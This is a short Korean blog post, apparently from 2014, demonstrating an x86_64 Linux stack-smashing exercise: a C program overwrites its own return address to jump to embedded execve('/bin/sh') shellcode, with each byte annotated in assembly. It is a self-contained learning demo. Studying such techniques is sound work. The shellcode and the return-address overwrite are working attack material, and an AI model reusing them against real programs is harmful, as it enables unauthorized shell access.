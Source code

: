 ```yaml
---
layout: post
title: "Linux x86_64 shellcode 2"
date: 2014-11-09 15:32:12 +0900
comments: true
categories: 
---
```


callee 스택을 파괴하는 예제를 짜보았다. 

callee stackframe 에서 return address 를 `_shellcode` 의 어드레스로 바꿔서 `retq` 가 실행될때 저기로 튀도록 한다.

    char *_shellcode = ""
        "\x48\x31\xd2"      /* xor rdx,rdx */
        "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  /* mov qword rbx, '//bin/sh' */
        "\x48\xc1\xeb\x08"  /* shr rbx,0x8 */
        "\x53"              /* push rbx */
        "\x48\x89\xe7"      /* mov rdi,rsp */
        "\x48\x31\xc0"      /* xor rax,rax */
        "\x50"              /* push rax */
        "\x57"              /* push rdi */
        "\x48\x89\xe6"      /* mov rsi,rsp */
        "\xb0\x3b"          /* mov al,0x3b */
        "\x0f\x05" ;        /* syscall */

    void explode() {
        long *ret;
        ret = (long *)&ret;
    #if 1
        ret++; // now points saved %rbp
        ret++; // now points return address
    #else
        __asm__(
        "add $16,%rax\n\t"
        "mov %rax, -0x8(%rbp)\n\t"
        );
    #endif
        *ret = _shellcode;
    }

    main()
    {
        explode();
    }
